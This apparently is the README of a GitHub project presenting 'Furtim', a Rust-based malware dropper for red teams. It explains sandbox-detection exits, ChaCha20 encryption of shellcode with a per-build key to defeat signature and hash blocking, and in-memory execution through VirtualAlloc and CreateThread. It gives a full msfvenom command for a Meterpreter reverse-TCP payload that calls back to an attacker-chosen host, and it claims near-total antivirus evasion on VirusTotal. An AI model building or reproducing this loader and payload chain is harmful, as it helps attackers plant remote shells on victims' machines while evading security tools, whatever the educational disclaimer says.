

# Furtim - Advanced Rust Dropper

Furtim (Latin for stealthily, secretly) is a modern, Rust-based malware dropper designed for Red Teaming operations and educational security research. It demonstrates advanced evasion techniques utilizing modern cryptography and environmental analysis to bypass static signatures and heuristic detection mechanisms of current EDR/AV solutions.

## DISCLAIMER
  
This project is strictly for educational purposes and authorized security testing. The author is not responsible for misuse or damage caused by this tool. Do not use this software on systems for which you do not have explicit permission to test.

## Key Features
Furtim leverages the memory safety and low-level control of Rust to create a loader with a minimal footprint.

## Phase 0: Sandbox & Heuristic Evasion
Before any decryption or execution takes place, Furtim acts as a "gatekeeper". It analyzes the runtime environment to determine if it is being analyzed by a sandbox or an automated scanner.
- **Resource Analysis**: Checks for a realistic CPU core count and RAM availability.
- **Silent Exit**: If the environment appears artificial (e.g., < 4GB RAM or < 4 cores), the program terminates immediately with Exit Code 0 to prevent malicious behavior from being recorded by the sandbox.

## Phase 1: Payload Hiding & Obfuscation
This phase focuses on obfuscating the shellcode signature and securely integrating it into the compiled executable, making it invisible to static analysis tools.
- **Strong Encryption (ChaCha20-Poly1305)**:

  The shellcode is encrypted using the modern, authenticated symmetric cipher ChaCha20-Poly1305. This ensures that the resulting ciphertext is cryptographically secure and appears as high-entropy random data.
- **Reduced Signature Risk (ChaCha20 vs. AES)**:

  We specifically use ChaCha20 instead of older, more common algorithms like AES-256. While AES is strong, it is ubiquitous in malware analysis sandboxes and often triggers specific code hooks. ChaCha20 is less common in the general Windows ecosystem, reducing the likelihood of triggering common analysis signatures or API hooks associated with known encryption standards.
- **Dynamic Key/Nonce Generation**:

  The encryption Key (32 bytes) and Nonce (12 bytes) are randomly generated by the **build.rs script at each compilation**. This ensures that the ciphertext and file hash are unique in every build instance, **avoiding hash-based blocking**.
- **Base64 Transport Encoding**:

   The encrypted binary data (ciphertext) is encoded into a Base64 string. This allows the arbitrary binary data to be securely stored as a standard Rust string (&str) constant within the generated source file (payload_data.rs).
- **Static Signature Evasion**:

  When a static scanner analyzes the final executable file, it finds only an unrecognizable, high-entropy Base64 string and the random key/nonce constants. No known shellcode signature is present, defeating simple pattern matching.
- **Decryption Integrity Check**:

  The Poly1305 part of the algorithm acts as a Message Authentication Code (MAC). During decryption, the code verifies that the ciphertext has not been tampered with, preventing potential integrity attacks.


## Phase 2: Execution
- **Native Windows API**:

  Uses VirtualAlloc to allocate RWX (Read-Write-Execute) memory and CreateThread to execute the payload within the process memory.
 **Note**: 
Direct usage of `VirtualAlloc` with RWX permissions is a known indicator for EDR heuristics. For advanced evasion, consider implementing indirect syscalls or memory mapping techniques to bypass user-mode API hooks. -> Work in Progress

- **Silent Operation**:

  All debug strings and console outputs are stripped from the release binary to minimize string-based detection signatures.

# Installation & Usage
## Prerequisites
- Rust & Cargo: Ensure the Rust toolchain is installed.
- Metasploit Framework: To generate the shellcode (msfvenom).
- Target: Windows x64 environment.

### 1. Payload Generation
Furtim requires a raw binary shellcode file named `payload.bin`. This file must be placed in the **root directory** of the project (next to `Cargo.toml`).
#### Recommended Command (Meterpreter Reverse TCP):
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> EXITFUNC=thread -f raw -o payload.bin
```
Note: `EXITFUNC=thread` is crucial to ensure that the dropper continues running or terminates cleanly without crashing the process.

### 2. Building Furtim
Once `payload.bin` is in the project root, compile the project in release mode. The `build.rs` script will automatically encrypt your payload during this step.
```bash
# Clean previous builds to ensure new key generation
cargo clean

# Build the optimized release binary
cargo build --release
```
The final executable file is located at: `target/release/furtim.exe`

# Effectiveness (VirusTotal Showcase)
To demonstrate the effectiveness of Furtim's evasion techniques, we compared a standard msfvenom executable with the Furtim bin version containing the same payload.
## 1. Standard Payload (Baseline)
**Command:**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe -o standard_payload.exe
```


Detection Rate: ~57 / 72 (Detected by almost all vendors)

## 2. Furtim Dropper
**Command:**
```bash
cargo build --release
```


Detection Rate: 3 / 72 (Bypassed 96% of vendors, including static analyses by Microsoft, CrowdStrike, and SentinelOne)

### **Note: Detection rates may change over time as heuristics evolve.**

# Technical Architecture
## 1. Compile Time (build.rs):
- Reads payload.bin.
- Generates random ChaCha20 Key/Nonce.
- Encrypts Payload -> Base64.
- Writes artifacts to OUT_DIR/payload_data.rs.
## 2. Runtime (main.rs):
- Phase 0: Checks CPU/RAM. If Sandbox -> exit(0).
- Phase 1: Decodes Base64 -> Decrypts ChaCha20.
- Phase 2: Allocates Memory -> Copies Shellcode -> Starts Thread -> Waits.


## License
This project is under the **[MIT License](LICENSE)**.
